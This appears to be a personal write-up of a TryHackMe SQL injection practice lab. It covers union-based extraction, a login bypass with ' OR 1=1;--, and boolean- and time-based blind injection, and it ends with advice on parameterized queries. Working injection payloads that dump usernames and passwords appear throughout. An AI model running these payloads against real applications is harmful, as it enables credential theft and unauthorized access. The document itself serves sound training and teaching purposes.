## Target: TryHackMe SQL Injection Practical Lab
## Platform: TryHackME
## Date: 07/08/2026
## Difficulty: Easy
## Tools: 

### Level 1 

#### Objective 

**Extract credentials from vulnerable database**

#### **Enumerate Column Count & Make Output Visible +**

Performed column enumeration using numbers to satisfy UNION conditions 


Found article page returned 3 columns 


Set article id to 0 to make injected output visible 

```SQL
0 UNION SELECT 1,2,3
```
Found that 3 shows up in the pages content area, making it the column perfect for extraction 


#### **Get Database Name**

Used MYSQL function database() to extract the name of the current database for future enumeration

```SQL
0 UNION SELECT 1,2,database()
```


Query showed that the current database is `sqli_one`


#### **Enumerate Tables and Columns**

Enumerated the tables listed within the `sqli-one` database to find the table containing user credenetials 

- 

```SQL
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema= 'sqli_one'
```

- Used information_schema.tables (Found in MYSQL, MariaDB, PostgreSQL and showsd database table) to collect the current tables found in the database system


Found table `staff_users` from the injected query output 


```SQL
0 UNION SELECT 1,2, group_concat(column_name) FROM information_schema.columns WHERE table_name='staff_users'
```


Found columns `id`, `password`, `username` from injected query output 


#### **Dumping Credentials**

Extracted usernames and passwords from `staff_users`

```SQL
0 UNION SELECT 1,2, group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users
```


Found Martin's password 'pas$$word' from injected query output 

#### **Capture Flag**


---


### Level 2

#### Objective 

**Authenticate without valid credentials**

#### **Authentication Bypass**

Presented with a login form at https://website.thm/login

Entered payload 

```SQL
' OR 1=1;--
```

- Premature field closure (') does not match any user 
- `OR 1=1` always evaluates to true (returning a row)
- `;--` ends the statements and comments everything after it (password)

#### **Capture Flag**


Login was bypassed and flag was captured 

---

### Level 3

#### Objective 

**Extract credentials using only true/false responses**

#### Enumerate Page and Confirm Injection 

Presented with checkuser API at https://website.thm/checkuser?username=admin returning {"taken":true}


Attempted to confirm whether URL parameter username was injectable or not 

```SQL
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
Respone returned {"taken":true} confirming parameter is injectable 


#### Enumerate Database 

Attempted to get database, character by character 


Confirmed database name `sqli_three` via {"taken":true} page response 


#### Enumerate Tables and Columns

Queried information_schema.tables within 'sqli_three' database  to enumerate available tables (LIKE)

```SQL
UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like '%';--
```

Narrowed result down to table 'users' 


Extracted available columns from users through the same enumeration process

```SQL
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_name = 'users' and column_name like '%';--
```

Confirmed the column `username` exists 


Confirmed column `password` exists 


#### Extract Username and Password 

Repeated enumeration process for username

```SQL
UNION SELECT 1,2,3 from users where username like '%';--
```
Found `admin` username exists 


Repeated process again for password 

```SQL
 UNION SELECT 1,2,3 from users where username='admin' and password like '%';--
```

Found admin password began with 3 



Experimented with different combinations until confirmation 



**Confirmed full credentials**
- username: admin
- password: 3845

#### Authentication & Flag Capture

Successfully authenticated using the recovered credentials



#### **Capture Flag**


---

### Level 4 
#### Objective 

**Extract credentials using Response Timing**

Introduced to a home page, complete with a timer and Referrer HTTP header injection point 



---
#### Find Column Count 

Enumerated column count using the sleep operator 

```SQL
 UNION SELECT SLEEP(5),2;--
```




#### Get the database name 

Enumerate database character by character 



Confirmed name of database -- `sqli_four`




#### Enumerate Tables and Columns 

Enumerated the tables character by character using the LIKE operator 

```SQL
 UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema='sqli_four' AND table_name LIKE '%';--
```





- Found table `users`

Repeated the same enumeration process for columns 

- Found columns `username` and `password`


#### Extract the admin password 

Iterated through and found the admin password Using the previously enumerated information 



```SQL
UNION SELECT SLEEP(3),2 FROM users where username='admin' AND password LIKE '%';--
```


Confirmed 

- Username: Admin
- Password: 4961


#### **Capture Flag**




#### Key Takeaway

This lab demonstrated how SQL injection vulnerabilities can expose sensitive information and allow for authentication to be bypassed. It emphasized the importance of properly handling user input  so that the injections displayed never come to fruition 

This lab showcased four different levels of SQL injections and techniques used 

1. Union-Based SQLi (In-band)
2. Authentication Bypass
3. Boolean-Based Blind SQLi
4. Time-Based Blind SQLi

A key insight showcased was diversity of delivery vectors for injections on a web application. 
1. GET param (URL query) -> Union-Based SQLi (In-band)\
2. POST param (login field) -> Authentication Bypass
3. GET param (checkuser API) -> Boolean-based Blind SQLi
4. HTTP header (Referrer) -> Time-Based Blind sqli

The diversity of distance vectors emphasizes that input shouldn't be defended at the entry point but rather the delivery point. Instead of trying to predict delivery vectors and stop them, it is more effective to defend the place where injections will always be delivered. When dealing with client-controlled input it is best to avoid concatenating it and use parameterization so all input is treated as data.

Paramterization allows for intended query logic to be parsed and frozen before any user input touches it. Because the structure is parsed before anything arrives, all user input is injected into the data slots.


